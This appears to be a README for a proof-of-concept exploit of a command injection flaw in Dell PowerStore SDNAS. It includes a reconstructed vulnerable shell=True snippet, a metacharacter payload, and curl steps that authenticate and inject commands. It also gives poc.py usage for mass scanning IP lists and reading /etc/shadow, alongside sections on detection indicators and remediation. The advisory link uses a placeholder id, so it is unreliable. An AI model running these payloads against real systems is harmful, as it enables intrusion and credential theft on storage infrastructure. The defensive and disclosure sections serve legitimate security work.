

<div align="center">

# CVE-2026-116448

### Dell PowerStore SDNAS — OS Command Injection


</div>

---

## Overview

Dell PowerStore's Software-Defined NAS (SDNAS) component exposes a REST API for
network diagnostics that passes user-controlled parameters directly to underlying
OS commands without sanitisation. An attacker with any valid API credential can
inject shell metacharacters into the `nslookup_host` parameter of the SDNAS
diagnostic endpoint, achieving Remote Code Execution as the `storageadmin` service
account.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-116448 |
| **CVSS 3.1** | `9.8 Critical` — `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | CWE-78 (OS Command Injection) |
| **Affected** | Dell PowerStore OS <= 3.6.0.0 with SDNAS enabled |
| **Patch** | PowerStore OS 4.0.0.1 |
| **Auth Required** | Low (read-only API credentials sufficient) |
| **Disclosed** | 2026-11-19 |

---

## Vulnerability Details

The SDNAS diagnostic service passes `nslookup_host` directly into a shell invocation
without sanitisation (reconstructed from decompiled `sdnas_diag_service`):

```python
# VULNERABLE — sdnas/diagnostic_service.py (reconstructed)
def run_network_diagnostics(params: dict) -> dict:
    host = params.get("nslookup_host", "")
    # CWE-78: direct string interpolation into shell=True call
    result = subprocess.check_output(
        f"nslookup {host} 2>&1",
        shell=True, timeout=10
    )
    return {"output": result.decode()}
```

A payload of `8.8.8.8; id; hostname #` causes execution of the injected commands
and returns their output in the JSON response.

---

## Attack Flow



---

## PoC Usage

### Setup

```bash
pip install -r requirements.txt
```

### Scenario 1 — Single target, default command (`id`)

```bash
python poc.py -u https://powerstore.corp --username svc_monitor --password Monitor1!
```

### Scenario 2 — Custom command, save output

```bash
python poc.py -u https://powerstore.corp \
  --username svc_monitor --password Monitor1! \
  --cmd "cat /etc/shadow" -o results.json
```

### Scenario 3 — Fingerprint only (no exploit)

```bash
python poc.py -u https://powerstore.corp --check-only --insecure
```

### Scenario 4 — Scan IP list via Burp proxy

```bash
python poc.py --ip-list scope.txt --username admin --password admin \
  --proxy http://127.0.0.1:8080 --insecure --delay 1.5
```

### Manual curl reproduction

```bash
# 1. Authenticate
curl -sk -X POST https://TARGET/api/rest/login_sessions \
  -H 'Content-Type: application/json' \
  -d '{"username":"svc_monitor","password":"Monitor1!","is_async":false}' \
  -c cookies.txt -D - | grep DELL-EMC-TOKEN

# 2. List SDNAS nodes
curl -sk https://TARGET/api/rest/sdnas_node \
  -H 'DELL-EMC-TOKEN: <token>' -c cookies.txt

# 3. Inject (replace NODE_ID)
curl -sk -X POST \
  "https://TARGET/api/rest/sdnas_node/NODE_ID/action/diagnose_network" \
  -H 'Content-Type: application/json' -H 'DELL-EMC-TOKEN: <token>' \
  -d '{"nslookup_host":"8.8.8.8; id; hostname #"}' -c cookies.txt
```

### Available flags

| Flag | Description |
|---|---|
| `-u / --url` | Target base URL |
| `--ip` | Target IP — builds `https://IP:PORT` |
| `--ip-list FILE` | Newline-separated IPs/URLs |
| `--port INT` | HTTPS port (default: `443`) |
| `--username STR` | API username (default: `admin`) |
| `--password STR` | API password |
| `--cmd STR` | OS command to run (default: `id`) |
| `--check-only` | Fingerprint only, skip exploit |
| `--proxy URL` | HTTP proxy (e.g. `http://127.0.0.1:8080`) |
| `--insecure` | Disable TLS certificate verification |
| `-o / --output FILE` | Write JSON results to file |
| `--timeout INT` | Request timeout in seconds (default: `15`) |
| `--retries INT` | Retry count on connection errors (default: `2`) |
| `--delay FLOAT` | Delay between targets (default: `0.5`) |
| `-v / --verbose` | Verbose request/response logging |

---

## Detection

| Indicator | Notes |
|---|---|
| `POST .*/sdnas_node/.*/action/diagnose_network` with `;` or `\|` in body | Shell metacharacters in `nslookup_host` |
| Unusual child processes of `sdnas_diag` (sh, bash, wget, curl) | EDR / process audit log |
| Outbound DNS/HTTP from PowerStore mgmt interface to unknown hosts | Network monitoring |
| REST API login from unexpected source IPs | SIEM alert on login events |

---

## Impact

Any valid API credential (including monitoring accounts) escalates to **Remote Code
Execution** as `storageadmin`. Consequences include full exfiltration of backup
metadata, volume configurations, credential harvesting from `/etc/shadow`, and
pivoting to the storage array's internal management network.

---

## Remediation

| Action | Detail |
|---|---|
| **Upgrade** | Apply Dell PowerStore OS 4.0.0.1 or later |
| **Segment** | Restrict management API (port 443) to admin subnets only |
| **Monitor** | Alert on `diagnose_network` calls from non-admin accounts |
| **Rotate** | Audit and rotate all service account API credentials |

---

## References

- [Dell Security Advisory DSA-2026-116448](https://www.dell.com/support/kbdoc/en-us/000000000)
- [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)

---

> **Disclaimer:** Published for authorised security research and responsible disclosure only.
> Use exclusively on systems you own or have explicit written permission to test.
